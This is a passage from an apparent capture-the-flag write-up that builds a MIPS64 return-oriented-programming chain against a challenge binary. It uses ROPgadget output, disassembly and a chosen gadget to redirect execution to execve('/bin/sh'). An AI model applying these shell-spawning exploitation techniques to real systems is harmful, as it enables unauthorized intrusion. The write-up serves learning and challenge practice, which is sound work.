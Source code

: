 #### ROPchain

Now we're able to craft a ropchain with only one badchar: "\n". To do so we can launch [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find some suitable gadgets:
```bash
$ ROPgadget --binary mipsy > gadgets
```

On mips architechture there is no `ret` or `pop` instructions, to handle this issue we use gadgets which load directly a 64 bit value stored in the stack into a register like this: 
```x86asm
ld $a0, 0x8($sp) ; It will read the doubleword in $sp+8 to load it in the $a0 register.
```
And to return we need to find a load on a register like `$t9` which is often used to resolve and call extern functions or on `$ra` which is the standard register used to store the address of the calling function.

And that's why it's too hard to find automatically gadgets for mips binaries. But fortunately, ROPgadgets finds a a great amount of gadgets which helps us a lot.

The exploitation would be for me to jmp to the execve's call with the right context.
The code looks like such: 

```x86asm
.text:0000000120004134                 move    $a2, $zero       ; envp
.text:0000000120004138                 move    $a1, $v1         ; argv
.text:000000012000413C                 move    $a0, $v0         ; path
.text:0000000120004140                 dla     $v0, execve      ; Load 64-bit address
.text:0000000120004144                 move    $t9, $v0
.text:0000000120004148                 jalr    $t9 ; execve     ; Jump And Link Register
.text:000000012000414C                 nop
```

To do so we have to:
- set `$v1` register to `NULL`
- set `$v0` register to a pointer to `/bin/sh`
- set `$gp`, the global pointer to the right value to be able do execute the `dla` instruction.

An important thing to notice is that on mips architechture, when an instruction is executed the next instruction is too executed despite of the result of the current instruction. So when we will choose our gadgets, we need to be careful according to the instruction after the control flow instruction.

And the good value for `$gp` is a constant from which the [`dla`](https://sourceware.org/binutils/docs-2.24/as/MIPS-Small-Data.html) instruction addresses memory areas. And if we check the value of `$gp` in gdb, we got: `0x120048020`.

To control the `$v1` register we can grep on the gadgets found by ROPgadget: 
```
$ grep "ld \$v0, " gadgets | grep \$sp
```
Then we got a lot of candidate which are not efficient. And if we're very careful we find an interesting gadget:
```
0x000000012001b4d8 : ld $v0, 0x210($sp) ; ld $t9, 0x228($sp) ; jalr $t9 ; move $a0, $s6
```
It's perfect because it allows us to control the value of `$v0` and the value of the next gadget that we can store in `$t9` to jump on !
